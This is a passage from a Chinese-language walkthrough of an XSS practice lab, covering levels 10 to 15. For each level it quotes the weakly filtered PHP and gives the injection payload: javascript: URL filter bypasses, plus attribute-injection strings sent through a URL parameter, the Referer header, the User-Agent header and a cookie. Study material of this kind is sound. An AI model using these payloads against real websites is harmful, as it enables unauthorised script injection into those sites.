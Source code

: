<pre class="wp-block-code"><code>利用注释1：java&#x73;cript:alert(1)//http://
利用注释2：java&#x73;cript:alert(1)/*http://*/

利用回车符%0d：java&#x73;cript:%0d/http://%0dalert(1)

利用换行符%0a：java&#x73;cript:%0a/http://%0aalert(1)</code></pre>

## Level10

<pre class="wp-block-code"><code>$str = $_GET&#91;"keyword"];
$str11 = $_GET&#91;"t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("&lt;","",$str22);</code></pre>

构造payload，使得input框显现，或者编辑html。

<pre class="wp-block-code"><code>t_sort="type="text"  onclick="alert(1)</code></pre>

## Less11

<pre class="wp-block-code"><code>$str11=$_SERVER&#91;'HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("&lt;","",$str22);</code></pre>

利用bp抓包，构造

<pre class="wp-block-code"><code>Referer:"type="text" onclick="alert(1)"</code></pre>

## Level12

<pre class="wp-block-code"><code>$str11=$_SERVER&#91;'HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("&lt;","",$str22);</code></pre>

利用bp构造USER_AGENT

<pre class="wp-block-code"><code>User-Agent:"type="text" onclick="alert(1)"</code></pre>

## Level13

<pre class="wp-block-code"><code>setcookie("user", "call me maybe?", time()+3600);
$str11=$_COOKIE&#91;"user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("&lt;","",$str22);</code></pre>

这次是构造cookie

<pre class="wp-block-code"><code>Cookie:user="type="text" onclick="alert(1)";</code></pre>

## Level14

本关因**iframe**调用的文件地址失效，无法进行测试。<a href="https://www.hackersb.cn/hacker/140.html" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.hackersb.cn/hacker/140.html</a>

## Level15
